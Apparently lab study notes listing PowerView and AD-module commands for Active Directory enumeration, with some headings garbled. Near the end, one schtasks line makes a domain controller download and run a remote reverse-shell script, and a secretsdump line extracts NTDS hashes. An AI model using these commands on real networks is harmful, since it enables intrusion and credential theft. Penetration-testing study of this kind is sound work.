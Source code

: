 ### PowerView or AD module required

### Check Current Domain
```
Get-NetDomain
Get-ADDomain
```

### Check Object Another Domain
```
Get-NetDomain -Domain moneycorp.local
Get-ADDomain -Identity moneycorp.local
```

### Check SID current Domain
```
Get-DomainSID
(Get-ADDomain).DomainSID
```

### Check Domain Policy
```
Get-DomainPolicy
(Get-DomainPolicy)."System Access"
```

### Check Domain Policy Another Domain
`(Get-DomainPolicy -domain moneycorp.local). “System Access”`

### Check Domain Controller current Domain
```
Get-NetDomainController
Get-ADDomainController
```

### Check Domain Controller Another Domain
```
Get-NetDomainController -Domain moneycorp.local
Get-ADDomainController -DomainName moneycorp.local -Discover
```

### 02%20Pentesters
```
Get-NetUser
Get-NetUser -Username student1
Get-ADUser -Filter * -Properties *
Get-ADUser -Identity student1 -Properties *
```

### Check Computers**

```
Get-NetComputer
Get-NetComputer -OperatingSystem Server 2016*"
Get-NetComputer -Ping
Get-NetComputer -FullData
Get-ADComputer -Filter *select Name

Get-ADComputer -Filter ‘OperatingSystem like "*Server’ -Properties OperatingSystem | select Name, OperatingSystem

Get-ADComputer -Filter * -Properties DNSHostName | %{Test-Connection -Count 1 -ComputerName $_DNSHostName}

Get-ADComputer -Filter * Properties *
```

### Check Groups**

```
Get-NetGroup
Get-NetGroup –Domain <targetdomain>
Get-NetGroup –FullData
Get-ADGroup -Filter * | select Name
Get-ADGroup -Filter * -Properties *
```

### Check USers Domain Admin**

```
Get-NetGroupMember -GroupName "Domain Admins" -Recurse
Get-ADGroupMember -Identity "Domain Admins" -Recursive
```

### Check all Groups local (Necessarie DA)**

`Get-NetLocalGroup -ComputerName dcorp-dc.dollarcorp.moneycorp.local -ListGroups`

### Check Local Admin Access**
`Find-LocalAdminAccess`

### User Enumeration**
`Get-NetUser | select -ExpandProperty samaccountname`

### Computer enumerate**
`$enun_cmputer=Get-NetComputer`

### Enumerate ADM Groups**

```
Get-NetGroupMember -GroupName "Domain Admins"
Get-NetGroupMember -GroupName "Enterprise Admins"
Get-NetGroupMember -GroupName "Enterprise Admins" –Domain moneycorp.local
```

### Checar compartilhamentos**
`Invoke-ShareFinder -ExcludeStandard -ExcludePrint -ExcludeIPC`

### Group Enumerate**

```
Get-NetGPOGroup
Get-NetGroupMember -GroupName RDPUsers
```

### Enumerate OUs**
`Get-NetOU`

### Enumerate Specific OU**
`Get-NetOU StudentMachines | %{Get-NetComputer -ADSPath $_}`

### List GPOS**
`Get-NetGPO`

### Enumnerar GPO aplicada OU**

```
(Get-NetOU StudentMachines -FullData).gplink

[LDAP://cn={3E04167E-C2B6-4A9A-8FB7-C811158DC97C},cn=policies,cn=system,DC=dollarcorp,DC=moneycorp,DC=local;0]

```

### Enumerate ACL**
`Get-ObjectAcl -SamAccountName "users" -ResolveGUIDs -Verbose`

### ACL Domain Admin enumerate**
`Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs -Verbose`

### Enumerar ACL para todas GPO**
`Get-NetGPO | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name}`

### Enumerar local onde user ou Group tem permissao**

```

Get-NetGPO | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name} | ?{$_.IdentityReference -match "student13"}

Invoke-ACLScanner -ResolveGUIDs |?{$_.IdentityReferenceName -match "RDPUsers"}
```

### Enumerar Diretorio Bloqueado**
`Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections`

### Enumerator computador onde Domain Admin ou grupo possui acesso**

```
Invoke-UserHunter -CheckAccess
Invoke-UserHunter
Invoke-UserHunter -GroupName "RDPUsers"
```

### Enumerar todos dominios**
`Get-NetForestDomain -Verbose`

### Mapear confiaça com dominio**
`Get-NetDomainTrust`

### Maperar confiança com floresta**
`Get-NetForestDomain -Verbose | Get-NetDomainTrust`

### Enumerar dominios externos**

`Get-NetForestDomain -Verbose | Get-NetDomainTrust | ?{$_.TrustType -eq 'External'}`

### Identificar dominios confiaveis externo**
`Get-NetDomainTrust | ?{$_.TrustType -eq 'External'}`

### Achar local onde domain admin esta logado.**
`Invoke-UserHunter -Stealth`

### Schedule task**

`schtasks /create /S dcorp-dc.dollarcorp.moneycorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck224" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.13/minireverso.ps1''')'"`

### Execute Task**
`schtasks /Run /S dcorp-dc.dollarcorp.moneycorp.local /TN "student13"`

### Delete Task**
`schtasks /delete /S dcorp-dc.dollarcorp.moneycorp.local /TN "student13"`

### Extract Hash NTDS**

`/usr/share/doc/python3-impacket/examples/secretsdump.py -system registry/SYSTEM -ntds "Active Directory/ntds.dit" -hashes LMHASH:NTHASH  LOCAL -outputfile  nomearquivoagerar`
